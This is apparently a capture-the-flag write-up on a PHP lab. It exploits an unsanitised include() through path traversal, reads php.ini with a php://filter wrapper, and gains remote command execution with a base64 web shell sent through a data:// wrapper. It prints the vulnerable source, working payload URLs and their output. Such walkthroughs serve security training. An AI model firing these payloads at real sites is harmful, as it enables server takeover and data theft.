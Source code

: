 ## Challenge

Try to gain RCE using one of the PHP wrappers and read the flag at /

## Solution

The webpage had an option to change the page:

`http://94.237.54.42:44758/index.php?language=en.php`

With `Ffuf` I tried to fuzz and get any file of importance:

```sh
ffuf -v -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.54.42:44758/FUZZ.php
```

And there was only a `extension.php`, as seen below, and seeing how the parameter `language` is used, I know there is a `path traversal vulnerability`.

Extension.php:
```php
 <!DOCTYPE html>
<?php
error_reporting(E_ALL);
ini_set('display_errors', 'On');
if(isset($_GET['language'])) {
  $lang = $_GET['language'];
}
else {
  $lang = "en.php";
}
?>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Inlane Freight</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,700" rel="stylesheet">
  <link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.4.0/css/font-awesome.min.css'><link rel="stylesheet" href="./style.css">
</head>

<body>
<div class="navbar">
  <a href="#home">Inlane Freight</a>
  <div class="dropdown">
    <button class="dropbtn">Language 
      <i class="fa fa-caret-down"></i>
    </button>
    <div class="dropdown-content">
      <a href="index.php?language=en.php">English</a>
      <a href="index.php?language=es.php">Spanish</a>
    </div>
  </div> 
</div>
<!-- partial:index.partial.html -->
<div class="blog-card">
    <div class="meta">
      <div class="photo" style="background-image: url(./image.jpg)"></div>
      <ul class="details">
        <li class="author"><a href="#">John Doe</a></li>
        <li class="date">Aug. 24, 2019</li>
      </ul>
    </div>
    <div class="description">
      <h1>History</h1>
      <h2>Containers</h2>
      <?php
        include($lang . ".php");
        echo $p2;
      ?>
      <p class="read-more">
        <a href="#">Read More</a>
      </p>
    </div>
  </div>
  <div class="blog-card alt">
    <div class="meta">
      <div class="photo" style="background-image: url(./image.jpg)"></div>
      <ul class="details">
        <li class="author"><a href="#">Jane Doe</a></li>
        <li class="date">July. 15, 2019</li>
      </ul>
    </div>
    <div class="description">
      <h1>Container Industry</h1>
      <h2>Opening a door to the future</h2>
      <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Ad eum dolorum architecto obcaecati enim dicta praesentium, quam nobis! Neque ad aliquam facilis numquam. Veritatis, sit.</p>
      <p class="read-more">
        <a href="#">Read More</a>
      </p>
    </div>
  </div>
<!-- partial -->
</body>
</html>
 ```
Now, by using that I try to read the `php.ini` file, but first I need to encode it, and I use the `php filter` for that:

`http://94.237.54.42:44758/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../../etc/php/7.4/apache2/php.ini`

There I gained a base64 encoded string which I decoded using Burp and saved it into a file `php.ini`.

I used `grep` to see if the `allow_url_include` set.

```sh
cat php.ini | grep allow_url_include
allow_url_include = On
```

So, now I now that it is vulnerable to for example `data` wrapper as explained in the `knowledge base`.

I encode the simple shell to base64:

```sh
echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Then I url-encode it and put in the url, by executing the `whoami` command:

`94.237.54.42:44758/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2bCg%3d%3d&cmd=whoami`

and the result is: `www-data`.

So let's check the list of files and directories on the root directory:

`http://94.237.54.42:44758/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2bCg%3d%3d&cmd=ls%20/`

This brings:

```
           37809e2f8952f06139011994726d9ef1.txt
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

And now I will readh the text file with:

`http://94.237.54.42:44758/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2bCg%3d%3d&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt`

The result is the flag:

`HTB{d!$46l3_r3m0t3_url_!nclud3}`


